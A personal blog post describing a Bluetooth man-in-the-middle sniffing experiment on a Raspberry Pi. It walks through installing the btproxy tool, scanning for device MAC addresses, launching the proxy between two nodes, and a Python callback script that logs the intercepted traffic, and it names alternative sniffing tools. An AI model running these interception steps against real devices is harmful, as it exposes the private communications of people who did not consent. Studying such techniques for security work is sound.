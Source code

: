 ```yaml
---
layout: post
title: Bluetooth hacking experiment and open tools
author: terceranexus6
image:
  feature: banners/header.png
tags: hacking bluetooth security english
---
```


I've been quite in many things lately, which didn't allow me to study all I wanted to. I'm mainly in two things, distributed ledger experiments and hardware. But I've had in mind a **hacking experiment** for quite a long time, and finally I decided to try it. It's a **Man In The Middle** attack (or sniffing) over bluetooth connections using a python repository, I think I will omit _for what_ I wanted to know that.

![](https://thumbs.gfycat.com/SaneSpanishCrayfish-max-1mb.gif)


Anyway, what I want to do here is to catch a connection between two nodes using bluetooth. The first idea is _only_ to capture the content of the connection.  For this I need a linux system, in this case I'm using debian based Raspbian in the RPi 3.  

![](https://thepracticaldev.s3.amazonaws.com/i/r096d85eunjfpjpc3wdk.jpg)

On it, I install some packages and clone the [repo](https://github.com/conorpp/btproxy.git) of the tool on github (**git needed here, btw**):

```
$ sudo apt-get install bluez libbluetooth-dev python-dev
$ git clone git://github.com/conorpp/btproxy

```
For installing the tool, simply use `sudo python setup.py install`.

Now we need to [get](https://www.systutorials.com/docs/linux/man/1-hcitool/) the MAC address of the both nodes.

```
$ hcitool scan
```
![](https://thepracticaldev.s3.amazonaws.com/i/rjcsf6kg5iiufuu7pdz6.jpg)

Once we have them, we can use them in the [most basic MITM attack](https://github.com/conorpp/btproxy/blob/master/scripts/btproxy) the tool offer, like this:

```
$ sudo btproxy <master-bt-mac-address> <slave-bt-mac-address>
```

The master is the device the sends the connection request and the slave is the device listening for something to connect to it. We can make it better passing a custom script for slave and master, as explained in the README. for this we use `btproxy -s SCRIPT` being the script something like this:

```
# script_example.py
def master_cb(req):
    """
        Received something from master, about to be sent to slave.
    """
    print '<< ', repr(req)
    open('mastermessages.log', 'a+b').write(req)
    return req

def slave_cb(res):
    """
        Same as above but it's from slave about to be sent to master
    """
    print '>> ', repr(res)
    open('slavemessages.log', 'a+b').write(res)
    return res
```
I must say this tool confusing when using two nodes being equal, such as two mobiles phones, and didn't work properly. Also for _that_ kind of sniffing I would suggest [this repo](https://github.com/vshymanskyy/BLESniffer_Python/tree/e9429371a9832d406fd6e897b2dadc2637c64976) instead, which also prepares a .pcap file out of the scanning for the phone traffic, but it might needs [hardware support](https://www.adafruit.com/product/2269), if you have an arduino you [can make](https://github.com/RedBearLab/nRF51822-Arduino) your own, tho. On the other hand, another alternative is [BTJuice](https://github.com/DigitalSecurity/btlejuice), which also works with **python** + **NodeJS**. This tool is very complete and includes an user-friendly interface for using in localhost. Also the commands are very similar to the ones used in btproxy.     

Anyway this is everything I got until now!
